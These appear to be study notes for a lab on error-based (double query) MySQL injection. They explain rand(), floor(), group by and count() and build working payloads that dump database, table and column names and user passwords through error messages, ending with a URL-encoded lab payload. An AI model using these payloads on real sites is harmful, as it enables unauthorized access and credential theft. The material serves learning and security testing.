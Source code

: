 # Error Based (Double Query) SQL Injection

- `A double query` combining two queries into a single query and getting the information through the SQL error message from the database. 

- Union injection can not be used when the web pages fail to retrieve any results (Error, Expected Results) from the database while we inject it with a single query, Then we should use double query SQL injection technique. It is a manual injection technique to dump the data from the database.

[Reference](https://securiumsolutions.com/blog/sql-injection-by-double-query-securiumsolutions/#:~:text=A%20double%20query%20SQL%20injection,error%20message%20from%20the%20database.)


# Mysql Query for Error Based Injection

## 1. `Sub-Query` or `Double Query`

- `A subquery is a SQL query nested inside a larger query.`

- A subquery may occur in :
    - A SELECT clause
    - A FROM clause
    - A WHERE clause
The subquery can be nested inside a SELECT, INSERT, UPDATE, or DELETE statement or inside another subquery.
A subquery is usually added within the WHERE Clause of another SQL SELECT statement.


## 2. `rand()` 

- This function return random decimal number between 0 and 1.

## 3. `floor()`

- The function retrun largest inter value.(Less than or equal to a number)

## 4. `Group by`

- aggregate same values in the coulumn as single value

## 5. `count`

- Count the no. of rows that present in the database




# Theory of Error Based or Double Query Injection


1. Combine two queries into single query 
2. Use SQL_function and make application to show error message
3. dump juicy info through error message



# Example mysql_function to make application error

## 1. count()

`select count(*) from information_schema.tables;`

- display how many row in `information_schema.tables;`

## 2. rand() and floor()

`select rand();`
`select floor(rand()*2);`
`select floor(rand()*2)test;`


## 3. Double Query and Make Application Error

#### Extract Juicy info from error

`select x from y;`

#### Double Query

- `select database();`

- `select concat("::",database(),"::","CONCAT FUNCTION");`

- `select concat("::",database(),"::",floor(rand()*2));`

#### adding variable `a`

- `select concat("::",database(),"::",floor(rand()*2))a from information_schema.columns;`

#### `group by` with a

- `select concat("::",database(),"::",floor(rand()*2))a from information_schema.columns group by a;`


#### use `count()` and making web application to error

`select count(*), concat("::",database(),"::",floor(rand()*2))a from information_schema.columns group by a;`

#### Modified query
`(select 1 from(select count(*), concat("::",database(),"::",floor(rand()*2))a from information_schema.columns group by a)b);`


#### insert this query to `,database(),` area

`(select table_name from information_schema.tables where table_schema=database() limit 0,1)`



# Emurating Database

## Emurating database

`(select 1 from(select count(*), concat("::",database(),"::",floor(rand()*2))a from information_schema.columns group by a)b);`

## Emurating Tables (`insert query in database area`)

`(select 1 from(select count(*), concat("::",(select table_name from information_schema.tables where table_schema=database() limit 0,1),"::",floor(rand()*2))a from information_schema.columns group by a)b);`

## Emurating Columns (`insert query in database area`)

`(select 1 from(select count(*), concat("::",(select column_name from information_schema.columns where table_name="users" and table_schema=database() limit 0,1),"::",floor(rand()*2))a from information_schema.columns group by a)b);`

## Emurating Data

### enumerating username

`(select 1 from(select count(*), concat(concat("::::",(select name from users limit 0,1)),floor(rand()*2))a from information_schema.columns group by a)b);`

### emuerating all data

#### 1. Removing all query within `concat`

`(select 1 from(select count(*), concat((),floor(rand()*2))a from information_schema.columns group by a)b);`

#### 2. Adding another `concat` to insert another query

`(select 1 from(select count(*), concat(concat(),floor(rand()*2))a from information_schema.columns group by a)b);`

#### 3. Adding select statement to dump data

`(select 1 from(select count(*), concat(concat((select name from users limit 0,1)),floor(rand()*2))a from information_schema.columns group by a)b);`



#### 4. Adding anther concat  (`at name area`)to dump all data from users table

`(select 1 from(select count(*), concat(concat("::::",(select concat(name,":::::::",password,":::::",status,":::::",work) from users limit 0,1)),floor(rand()*2))a from information_schema.columns group by a)b);`




## lab Full Query Query (ZD-Lab,SQLI,Lesson-5)

`AND+(select+1+from(select count(*), concat("::",(select table_name from information_schema.tables where table_schema=database() limit 0,1),"::",floor(rand()*2))a from information_schema.columns group by a)b)--+`




























